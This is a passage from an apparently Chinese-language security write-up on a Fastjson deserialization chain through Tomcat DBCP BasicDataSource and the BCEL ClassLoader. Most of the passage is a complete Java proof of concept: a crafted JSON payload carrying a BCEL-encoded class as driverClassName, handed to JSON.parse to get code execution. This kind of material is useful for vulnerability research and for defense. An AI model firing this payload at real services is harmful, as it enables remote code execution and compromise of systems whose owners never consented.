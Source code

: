 ```java
public Connection getConnection() throws SQLException {
        if (Utils.IS_SECURITY_ENABLED) {
            final PrivilegedExceptionAction<Connection> action = new PaGetConnection();
            try {
                return AccessController.doPrivileged(action);
            } catch (final PrivilegedActionException e) {
                final Throwable cause = e.getCause();
                if (cause instanceof SQLException) {
                    throw (SQLException) cause;
                }
                throw new SQLException(e);
            }
        }
        return createDataSource().getConnection();
    }
```

#### 链子的整体流程

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-f968323f6dac0d58f837096d5f21cbfdb9b9ad60.png)

#### poc详解

poc(这里先贴上，后面在解释)

```java
package org.example;

import com.alibaba.fastjson.JSON;

/**
 * @Author kilo、冰室/ki10Moc
 * @date 2022/11/7
 * @time 14:30
 * @blog http://ki10.top
 **/

public class FastJsonBcel {
    public static void main(String[] args){
        String payload2 = "{\n" +
                "    {\n" +
                "        \"ki10\":{\n" +
                "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "                \"driverClassLoader\": {\n" +
                "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "                },\n" +
                "                \"driverClassName\": \"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AuQ$cbN$db$40$U$3d$938$b1c$9c$e6A$D$94$a6o$k$81E$zPw$m6$V$95$aa$baM$d5$m$ba$9eL$a7a$82cG$f6$84$a6_$c4$3a$hZ$b1$e8$H$f0Q$88$3b$sM$pAG$f2$7d$ce9$f7$dc$f1$d5$f5$e5$l$Ao$b0$e1$c2$c1$b2$8b$V$3cr$b0j$fcc$hM$X$F$3c$b1$f1$d4$c63$86$e2$be$8a$94$3e$60$c8$b7$b6$8e$Z$ac$b7$f17$c9P$JT$q$3f$8d$G$5d$99$i$f1nH$95z$Q$L$k$k$f3D$99$7cZ$b4$f4$89J$Z$9a$81$88$H$fep$87$ff$dc$fd$a1$o$ff$3bOu$3f$8d$p$ff$f0L$85$7b$M$ce$be$I$a7C$Y$81$gA$9f$9fq_$c5$fe$fb$f6$e1X$c8$a1VqD$d7$ca$j$cd$c5$e9G$3e$cc$c8I$t$83$db$89G$89$90$ef$94$ZV2t$af$N$d6C$J$ae$8d$e7$k$5e$e0$r$a9$ma$c2$c3$x$ac1$y$de$c3$eda$j$$$c3$ea$ffE2T3$5c$c8$a3$9e$df$ee$f6$a5$d0$M$b5$7f$a5$_$a3H$ab$Bip$7bR$cf$92Fk$x$b8s$87$W$b1$e4X$K$86$cd$d6$5c$b7$a3$T$V$f5$f6$e6$B$9f$93X$c84$r$40eHM$9d$ad$7f$94p$ni$z$9b$7e$9c990$b3$y$d9$F$ca$7c$f2$8c$7ca$fb$X$d8$qk$7bd$8b$b7E$94$c9z$d3$f8$B$w$e4$jTg$60$9e$91$B$f5$df$c8$d5$f3$X$b0$be$9e$c3$f9$b0$7d$81$e2$q$ab$97$I$5b$40$3ec$5c$a2$c8$a0K$844$af$5d$s$96$gE$7f$t$94aQ$5e$a7l$91$3e$h$b9$c0$c6C$8b$g$8dL$d4$d2$N_$9f$94$o$82$C$A$A\"\n" +
                "        }\n" +
                "    }: \"Moc\"\n" +
                "}";
        JSON.parse(payload2);
    }
}
```